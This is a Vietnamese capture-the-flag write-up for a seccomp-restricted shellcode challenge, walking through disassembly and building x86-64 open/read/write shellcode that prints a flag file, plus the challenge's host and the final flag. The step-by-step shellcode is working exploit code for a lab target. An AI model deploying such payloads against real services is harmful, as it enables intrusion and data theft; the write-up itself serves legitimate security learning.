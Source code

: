 # ⛳ Shellcode

- Description: dễ mà tự viết đi trên trên mạng không có đâu
  - Bắt buộc dùng open, read, write để đọc flag
  - Không cần quan tâm đến seccomp
  - Dùng syscall ngoài open, read, write sẽ bị khóa
  - nc 45.122.249.68 10017
- Hint:
  - Bạn Nhật Trường có một bài blog tương tự bài này trên x86, thử chuyển code sang x86-64 bạn sẽ giải được bài này link: https://drx.home.blog/2019/04/03/pwnable-tw-orw/

## Write-up:

Disassemble hàm main, ở đây ta thấy có hàm **setup_seccomp** sau khi chúng ta input bằng hàm **read@plt**.

```
0x000000000000132f <+122>:   call   0x10f0 <read@plt>
0x0000000000001334 <+127>:   mov    eax,0x0
0x0000000000001339 <+132>:   call   0x1209 <setup_seccomp>
```

Vào xem thử hàm **setup_seccomp** làm gì trên IDA.

![image](https://user-images.githubusercontent.com/48288606/147545255-85432ebe-de11-4b03-99ee-5edfab194115.png)

Theo như đoạn mã giả và tìm kiếm về seccomp (secure computing mode) thì **setup_seccomp** chỉ là một hàm định nghĩa các rule để giới hạn lại và quy định các **system call**. Đại khái, chương trình thực hiện khởi tạo seccomp rule bằng **seccomp_init()**, thêm rule bởi hàm **seccomp_rule_add()** và ta thấy có 3 dòng để set rule cho 3 system call là "read/ write/ open" và dùng **seccomp_load()** để apply các rule vào kernel.<br>
=> Vậy cho nên theo như hint thì thật ra chúng ta không cần xem đoạn này, hint đã gợi ý chỉ được dùng **open, read, write** trong shellcode để đọc flag.

Khi chạy chương trình ta biết được flag nằm trong file "PhaPhaKhongCoDon.txt"
```
Use open, read, write to get flag, flag is in PhaPhaKhongCoDon.txt
```
### Viết shellcode:

Với 3 system call trên, ta dự định sẽ thực hiện lần lượt: open(mở stream đọc file) -> read(đọc dữ liệu từ stream cho trước và đưa vào buffer) -> write(ghi dữ liệu từ buffer ra output stream). Bây giờ ta sẽ xác định các parameter đưa đúng theo quy ước gọi syscall [tại đây](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) (Table x86_64 (64-bit))

Khởi tạo stack, lưu ý trên x86_64 không push trực tiếp một giá trị hằng vào stack được nên phải thông qua thanh ghi

Code:
```
        'mov r8, %s' % hex(u64('.txt\0\0\0\0')),
        'mov r9, %s' % hex(u64('ongCoDon')),
        'mov r10, %s' % hex(u64('PhaPhaKh')),
        'push r8',
        'push r9', 
        'push r10', 
```

Lệnh open() - [Official manual](https://man7.org/linux/man-pages/man2/open.2.html):
- %rax: 0x02
- arg0 (%rdi): const char \*filename .Ở đây mình sẽ đưa chuỗi "PhaPhaKhongCoDon.txt" vào và vì kiến trúc 64bits nên size tối đa là 8 bytes, còn thiếu thì đệm thêm byte NULL vào chuỗi để không ảnh hưởng quá trình gọi syscall
- arg1 (%rsi): int flags. Chế độ cho stream open. Được định nghĩa trong file `/usr/include/asm-generic/fcntl.h` vì hàm **open()** được tạo trong thư viện **fcntl.h**. Mình có thể search để biết các giá trị này nhanh hơn. Do ban đầu đọc manual mình không rõ cách truyền vào mấy flags này nên mới đào sâu vậy 😊. Ở đây mình chỉ đọc (O_RDONLY) nên dùng **0x0**.
```
#define O_ACCMODE       00000003
#define O_RDONLY        00000000
#define O_WRONLY        00000001
#define O_RDWR          00000002
```

Code:
```
        'xor rdx, rdx',
        'xor rsi, rsi',
        'mov rdi, rsp',
        'mov rax, 0x2',
        'syscall',
```

- arg2 (%rdx): umode_t mode. (Định nghĩa permission cho file). Ta dùng **0x0** 
- Return value: trả về file descriptor lưu trong rax.

Lệnh read() - [Official manual](https://man7.org/linux/man-pages/man2/read.2.html). Tương tự:
- %rax: 0x00
- arg0 (%rdi): unsigned int fd. Đưa file descriptor từ stream open ở trên vào. 
- arg1 (%rsi): char \*buf. Nhét chuỗi trên vào
- arg2 (%rdx): size_t count. Size của buffer để đọc, cho tùy ý miễn đủ đọc flag.
- Return value: Số lượng byte được đọc thật sự được trả về

Code:
```
        'mov rsi, rsp',
        'mov rdi, rax',  
        'mov rdx, 0x100',
        'mov rax, 0x0',  
        'syscall',
```
Lệnh write() - [Official manual](https://man7.org/linux/man-pages/man2/write.2.html). Tương tự:
- %rax: 0x01
- arg0 (%rdi): unsigned int fd. File descriptor đưa ra ngoài output nên phải dùng stream của STDOUT là **0x1**
- arg1 (%rsi): const char \*buf. Tham số này không quan trọng vì ta đã xác định đưa chuỗi ký tự cần ghi ra ngoài STDOUT stream rồi
- arg2 (%rdx): size_t count

Code:
```
        'mov rdi, 0x1',
        'mov rdx, rax',
        'mov rax, 0x1',
        'syscall'
```

Tham khảo shellcode hoàn chỉnh [tại đây](shellcode.py)


Flag: **Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}**
